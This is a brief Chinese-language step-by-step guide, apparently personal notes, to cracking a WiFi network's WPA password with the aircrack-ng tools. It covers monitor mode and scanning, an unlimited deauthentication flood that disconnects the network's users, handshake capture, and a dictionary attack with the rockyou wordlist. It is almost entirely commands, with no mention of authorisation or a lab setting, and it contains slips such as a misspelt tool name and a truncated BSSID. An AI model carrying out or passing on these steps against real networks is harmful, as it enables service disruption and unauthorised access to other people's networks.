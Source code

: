 1.使用iwconfig命令查看网卡信息

iwconfig 

2.设置wlan0为监听模式

sudo arimon-ng start wlan0

3.监听wifi信道

sudo airodump-ng wlan0

ctrl+c 暂停记录BSSID及信道CH对应的数字

4.单独监听某个wifi

sudo airodump-ng wlan0 -d DC:C6:4B:81:6A:FE #BSSID

5.监听并设置保存数据包的名称

sudo airodump-ng -w hack -c 3 --bssid DC:C6:4B:6A:FE wlan0

6.新开窗口，炸掉wifi，当前连接该wifi的用户下线

sudo aireplay-ng --deauth 0 -a DC:C6:4B:81:6A:FE wlan0

7.ctrl+c停止运行（如果不暂停，别人无法连接wifi）

8.检查数据包数据是否可用

wireshark hack-01.cap #新开一个软件工具 

输入eapol

9.破解密码

aircrack-ng hack-01.cap -w /usr/share/wordlists/rockyou.txt #从文件字典中读取密码

进行测试。如果连接成功回显密码。











